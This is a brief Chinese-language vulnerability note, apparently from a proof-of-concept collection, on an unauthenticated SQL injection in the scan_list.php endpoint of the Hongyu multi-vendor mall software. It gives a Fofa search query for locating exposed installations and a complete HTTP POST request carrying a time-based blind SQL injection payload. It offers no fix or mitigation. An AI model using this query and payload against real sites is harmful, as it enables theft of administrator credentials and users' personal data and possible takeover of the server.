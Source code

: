 # 鸿宇多用户商城scan_list.php存在SQL注入漏洞

鸿宇多用户商城 scan_list.php 接口处存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

## Fofa

```javascript
body="HongYuJD" && body="68ecshopcom_360buy"
```

## poc

```javascript
POST /scan_list.php HTTP/1.1
Host: your-ip
User-Agent:Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Connection: close
 
data['fahuo']=(SELECT 2753 FROM (SELECT(SLEEP(4)))QkUH)&act=view
```

![image-20241025141431703](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202410251414765.png)